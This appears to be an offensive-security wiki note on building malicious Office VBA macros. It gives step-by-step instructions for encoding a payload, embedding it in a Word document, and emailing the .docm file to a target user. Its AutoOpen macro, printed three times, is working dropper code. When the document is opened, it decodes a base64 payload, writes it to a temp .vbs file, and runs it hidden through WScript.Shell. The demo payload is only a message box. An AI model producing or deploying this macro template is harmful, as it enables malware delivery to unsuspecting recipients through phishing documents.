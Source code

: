 # Summary
Malicious VBA macros are scripts embedded in Office documents (e.g., Word, Excel) designed to execute malicious code when the document is opened. These macros exploit the automation capabilities of VBA (Visual Basic for Applications) to perform harmful activities such as downloading and executing malware, stealing data, or manipulating files.

Here's an overview of how you could create and use malicious VBA macros to execute attacks:

1. **Prepare the Payload:** Create or obtain the shellcode or script that you want to execute when the document is opened.
2. **Embed the Payload:** Embed the payload into the VBA macro within the Office document.
3. **Trigger the Payload:** Ensure the payload is triggered automatically when the document is opened by the target application.
4. **Distribute the Malicious Document:** Send or distribute the malicious document to the target user.

# Execution
To create and use a malicious VBA macro, follow these steps:

1. **Prepare the Payload:** Create the shellcode or script that will be executed when the document is opened.
2. **Embed the Payload:** Use the VBA editor in an Office application to embed the shellcode into the document.
3. **Distribute the Document:** Ensure that the target user opens the document, triggering the embedded payload.

#### Step 1: Prepare the Payload
Assume you have some shellcode (e.g., PowerShell script):

1. **Encode the Shellcode:** Convert your shellcode to a base64 string.

```
# Example PowerShell script
$script = @"
Add-Type -AssemblyName PresentationFramework
[System.Windows.MessageBox]::Show('Hello, World!')
"@

# Convert to base64
$bytes = [System.Text.Encoding]::Unicode.GetBytes($script)
$base64Payload = [System.Convert]::ToBase64String($bytes)
$base64Payload
```

2. **Replace Placeholder in the Macro:** Replace placeholders in your VBA macro with the base64-encoded payload.

#### Step 2: Embed the Payload
Using a macro-enabled Word document as an example:

1. **Create a New Word Document:**    
    - Open Microsoft Word.
    - Create a new document.

2. **Enable Macros:**    
    - Go to the "Developer" tab.
    - Click "Visual Basic" to open the VBA editor.

3. **Insert the Payload:**    
    - In the VBA editor, insert a new module.
    - Add a macro that decodes and executes the payload.

```
Sub AutoOpen()
    Dim base64Payload As String
    base64Payload = "BASE64_ENCODED_PAYLOAD_HERE"
    Dim bytes() As Byte
    bytes = Base64Decode(base64Payload)
    Dim tempFile As String
    tempFile = Environ("TEMP") & "\temp.vbs"
    Open tempFile For Binary As #1
    Put #1, , bytes
    Close #1
    CreateObject("WScript.Shell").Run tempFile, 0, False
End Sub

Function Base64Decode(base64String As String) As Byte()
    Dim xml As Object
    Set xml = CreateObject("MSXML2.DOMDocument.3.0")
    Dim node As Object
    Set node = xml.createElement("b64")
    node.DataType = "bin.base64"
    node.Text = base64String
    Base64Decode = node.nodeTypedValue
End Function
```

4. **Replace Placeholder:** Replace "BASE64_ENCODED_PAYLOAD_HERE" with the actual base64 payload from Step 1.

#### Step 3: Distribute the Malicious Document

1. **Save the Document:** Save the Word document as a macro-enabled file (.docm).
2. **Send the File:** Send the file to the target user via email or other means.

# Example Execution
Below is a detailed example:

#### Step 1: Prepare the payload in PowerShell

```
$script = @"
Add-Type -AssemblyName PresentationFramework
[System.Windows.MessageBox]::Show('Hello, World!')
"@
$bytes = [System.Text.Encoding]::Unicode.GetBytes($script)
$base64Payload = [System.Convert]::ToBase64String($bytes)
$base64Payload
```

#### Step 2: Embed the payload in a Word document macro

1. Open Microsoft Word.
2. Go to "Developer" -> "Visual Basic".
3. Insert a new module and add the following code:

```
Sub AutoOpen()
    Dim base64Payload As String
    base64Payload = "BASE64_ENCODED_PAYLOAD_HERE"
    Dim bytes() As Byte
    bytes = Base64Decode(base64Payload)
    Dim tempFile As String
    tempFile = Environ("TEMP") & "\temp.vbs"
    Open tempFile For Binary As #1
    Put #1, , bytes
    Close #1
    CreateObject("WScript.Shell").Run tempFile, 0, False
End Sub

Function Base64Decode(base64String As String) As Byte()
    Dim xml As Object
    Set xml = CreateObject("MSXML2.DOMDocument.3.0")
    Dim node As Object
    Set node = xml.createElement("b64")
    node.DataType = "bin.base64"
    node.Text = base64String
    Base64Decode = node.nodeTypedValue
End Function
```

4. Replace "BASE64_ENCODED_PAYLOAD_HERE" with the encoded payload from Step 1.
5. Save the document as a macro-enabled file (.docm).

#### Step 3: Distribute the malicious file

1. Save the document as a .docm file.
2. Send the document to the target user.

# Example Code
Here's a VBA macro example for embedding a payload in a Word document:

```
Sub AutoOpen()
    Dim base64Payload As String
    base64Payload = "BASE64_ENCODED_PAYLOAD_HERE"
    Dim bytes() As Byte
    bytes = Base64Decode(base64Payload)
    Dim tempFile As String
    tempFile = Environ("TEMP") & "\temp.vbs"
    Open tempFile For Binary As #1
    Put #1, , bytes
    Close #1
    CreateObject("WScript.Shell").Run tempFile, 0, False
End Sub

Function Base64Decode(base64String As String) As Byte()
    Dim xml As Object
    Set xml = CreateObject("MSXML2.DOMDocument.3.0")
    Dim node As Object
    Set node = xml.createElement("b64")
    node.DataType = "bin.base64"
    node.Text = base64String
    Base64Decode = node.nodeTypedValue
End Function
```

Replace "BASE64_ENCODED_PAYLOAD_HERE" with your base64-encoded payload. Ensure that you have proper permissions to manipulate the target process.

# Resources

|**Website**|**URL**|
|-|-|
|Microsoft VBA Documentation|[https://docs.microsoft.com/en-us/office/vba/api/overview/excel](https://docs.microsoft.com/en-us/office/vba/api/overview/excel)|
|Excel VBA Tutorial|https://www.excel-easy.com/vba.html|
|VBA Macro Examples|https://www.automateexcel.com/vba/examples/|